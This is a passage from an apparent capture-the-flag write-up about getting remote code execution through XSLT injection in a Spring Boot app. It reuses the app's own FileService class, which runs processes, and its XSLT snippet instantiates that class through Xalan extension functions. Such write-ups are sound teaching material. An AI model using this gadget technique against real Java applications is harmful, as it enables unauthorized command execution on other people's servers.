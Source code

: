 ### Living of the land

In order to execute code on the machine, one has to come up with its own payload that does not use `Runtime` or `ProcessBuilder`. If we dig more into the code, we can achieve this somewhat easily by using application classes, `FileService` class in particular since it contains a `run` method:

```java
public String run(String... args) throws IOException, InterruptedException {
    ProcessBuilder processBuilder = new ProcessBuilder(args);
    Process process = processBuilder.start();
    int exit = process.waitFor();
    if (exit != 0) {
        return null;
    }

    BufferedReader in = new BufferedReader(new InputStreamReader(process.getInputStream()));
    String s;
    StringBuilder out = new StringBuilder();
    while ((s = in.readLine()) != null) {
        out.append(s);
    }
    return out.toString();
}
```

Crafting an XSLT template that uses the `FileService` class' `run` method is a bit tricky, since we need to execute its constructor first, which requires `AvatarRepository` instance as its one and only parameter:

```java
@Autowired
public FileService(AvatarRepository avatarRepository) {
    this.avatarRepository = avatarRepository;
}
```

Xalan documentation contains a lot of information on how to instantiate classes, I suggest reading those as they are vital for this last step in performing code execution.

What we can't do here is most definitely instantiate an `AvatarRepository` instance since its defined as an interface and its completely managed by Spring Boot. Therefore, we have to pass a `null` value to this constructor. Passing a simple `null` via XSLT will most certainly fail with an error since Xalan parses it as a node element for some reason.

This can be evaded by instantiating any model class which is empty, and use a getter on a property that returns an object - since the model class is empty, the getter will return a null:

```xml
<xsl:variable name="partner" select="java:org.ibctf.model.Partner.new()"/>
<xsl:variable name="avatar" select="java:getAvatar($partner)"/>
<xsl:variable name="fileservice" select="java:org.ibctf.service.FileService.new($avatar)"/>
```

The result of the XSLT snippet is a working instance of `FileService`. Now we need to find a way how to call the `run` method with appropriate `String...` (syntactic sugar for `String[]`) parameters.
